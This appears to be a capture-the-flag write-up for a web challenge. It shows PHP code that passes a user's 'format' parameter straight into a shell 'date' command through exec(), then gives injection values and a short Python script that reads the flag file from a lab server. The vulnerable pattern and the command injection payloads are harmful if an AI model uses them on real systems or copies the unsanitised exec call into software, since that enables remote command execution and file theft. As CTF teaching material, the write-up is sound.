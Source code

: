 ## **Description**
Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.
<br></br>
In controllers -> `TimeController.php` we can see that it take a get parameter  `format` and pass it to getTime().

We can see the function in `TimeModel.php`

```php
<?php

class TimeModel

{

    public function __construct($format)

    {

        $this->command = "date '+" . $format . "' 2>&1";

    }

  

    public function getTime()

    {

        $time = exec($this->command);

        $res  = isset($time) ? $time : '?';

        return $res;

    }

}
```
Here where we format param get handled 
```php
$command = "date '+" . $format . "' 2>&1";
```
We can bypass it like this : 
``'; echo $(ls)'``
<br></br>
From the DockerFile we can see the flag location :
```DockerFile
# Copy flag

COPY flag /flag
```

Solution : 

```py
from requests import *
import re
url="http://83.136.250.225:33938/"

pattern = r'HTB\{.*\}'
r=get(url,params={"format":"'; echo $(cat ../flag)'"})
flag = re.findall(pattern, r.text)
print(flag)
```

